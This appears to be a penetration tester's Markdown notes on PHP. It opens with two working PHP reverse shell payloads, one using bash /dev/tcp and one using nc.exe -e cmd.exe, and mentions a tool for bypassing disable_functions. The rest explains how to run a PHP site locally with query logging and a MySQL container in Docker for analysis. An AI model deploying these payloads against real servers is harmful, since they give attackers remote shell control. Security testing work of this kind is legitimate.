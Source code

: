 # PHP

All things PHP

```php
# Reverse shell payload
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.221/81 0>&1'");?>
<?php exec("C:\ProgramData\System\nc.exe 172.16.87.254 443 -e cmd.exe");?>
```

## Capabilities

### dfunc-bypasser

If access to phpinfo, but command execution not working, check `disable_functions`, and run the file/url against [dfunc-bypasser](https://github.com/teambi0s/dfunc-bypasser)

```bash
# Check a phpinfo.php file
python2 dfunc-bypasser/dfunc-bypasser.py --file phpinfo.ph

# Check a phpinfo url
python2 dfunc-bypasser/dfunc-bypasser.py --url http://localhost/phpinfo.php
```

### Web Server

Emulate a web server given the source code via the following steps

Change database calls within the source code by adding the following function to `db_utils.php`:

```php
function print_sql_query($stmt, $params = []) {
	$query = $stmt->queryString;
	foreach ($params as $key => $value) {
		$query = str_replace(":$key", "'" . $value . "'", $query);
	}
	file_put_contents('debug.log', $query . "\n", FILE_APPEND);
}
```

Then comment out the database calls and add the print function below it:

```php
$stmt->execute($params);
```

Becomes

```php
// $stmt -> execute($params);
print_sql_query($stmt, $params);
```

This will allow the website to function without a database, and printing all database calls to a newly created file `debug.log`.

Continuously view `debug.log` with the command:

```bash
tail -f debug.log
```

Note: You can add the code:

```php
file_put_contents('debug.log', $any_variable . "\n", FILE_APPEND);
```

To any part of the code now to output additional debug information

### Database

To still simulate the database connection perform the following steps:

Install Docker

```bash
sudo apt-get install docker.io
```

Start Docker

```bash
sudo systemctl start docker
sudo systemctl enable docker
```

Verify installation

```bash
sudo docker --version
```

Run MySQL in Docker

```bash
sudo docker pull mysql
```

Start MySQL container

```bash
sudo docker run --name mysql-db -e MYSQL_ROOT_PASSWORD=myrootpassword -e MYSQL_DATABASE=clicker -e MYSQL_USER=clicker_db_user -e MYSQL_PASSWORD=clicker_db_password -p 3306:3306 -d mysql
```

Where `MYSQL_DATABASE`, `MYSQL_USER`, and `MYSQL_PASSWORD` are changed to their proper values based on the `db_utils.php` file.

Check container status

```bash
sudo docker ps
```

Once done analyzing, tear down with the commands:

```bash
sudo docker stop mysql-db
sudo docker rm mysql-db
```

### Execution

Now you can run the website with the following command:

```bash
php -S localhost:8000
```
